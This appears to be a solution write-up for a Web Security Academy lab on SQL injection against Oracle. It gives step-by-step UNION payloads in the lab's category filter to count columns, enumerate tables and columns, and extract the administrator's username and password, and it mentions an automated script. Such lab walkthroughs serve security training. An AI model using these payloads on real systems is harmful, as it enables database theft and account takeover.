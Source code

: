 # SQL Injection Lab 06 - SQL injection attack, listing the database contents on Oracle

## Manual Solution

### 1. Access the lab in Web Security Academy
### 2. Determine the number of columns for UNION attack
   - Test: `/filter?category=Gifts' ORDER BY 1--`
   - Result: No error (at least 1 column exists)
   - Test: `/filter?category=Gifts' ORDER BY 2--`
   - Result: No error (at least 2 columns exist)
   - Test: `/filter?category=Gifts' ORDER BY 3--`
   - Result: Error (confirms 2 columns)

### 3. List the database contents:
   - Test: `/filter?category=Gifts' UNION SELECT NULL,table_name FROM all_tables --`
   - Result: List of tables in the database. There are many tables, we don't know which one has the username and password.

### 4. List the table like USERS% :
   - Test: `/filter?category=Gifts' UNION SELECT table_name,column_name FROM all_tab_columns WHERE table_name LIKE 'USERS_%' --`
   - Result: You'll see a table starts with users_... and its columns. Example: USERS_HZPHRO and its columns are PASSWORD_MZORWL and USERNAME_GZKLJS.

### 5. Extract the username and password:
   - Test: `/filter?category=Gifts' UNION SELECT [YOUR_COLUMN_NAME],[YOUR_COLUMN_NAME] FROM [YOUR_TABLE_NAME]--`
   - Result: administrator and password

### 6. Login to the administrator account

## Automated Solution

### 1. Download the script
### 2. Run the script with the following command: python sqli_lab_06.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)

